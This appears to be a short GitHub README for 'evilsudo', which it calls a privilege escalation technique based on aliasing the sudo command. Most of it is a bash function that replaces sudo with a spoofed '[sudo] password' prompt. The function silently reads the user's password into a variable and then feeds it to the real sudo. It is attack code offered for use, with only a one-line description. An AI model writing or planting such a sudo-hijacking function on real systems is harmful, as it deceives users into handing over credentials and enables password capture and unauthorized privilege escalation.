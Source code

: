 # evilsudo
`evilsudo` is a privilege escalation technique based on alias'ing the sudo command

# code

```bash
alias sudo=evilsudo
function evilsudo() {
	if [ "$#" -gt "0" ]; then
		rights=$(echo "a" | /usr/bin/sudo -S whoami 2>/dev/null)
		if [ "$rights" == "root" ]; then
			$(which sudo) $@
		else
			original_params=$@
			echo -en "[sudo] password for $(whoami): "
			read -s password
			echo -en "\r"
			cmd=$(echo $password | $(which sudo) -S $original_params)
			echo -e ""
			echo "$cmd"
		fi
	else
		$(which sudo)
	fi
}
````
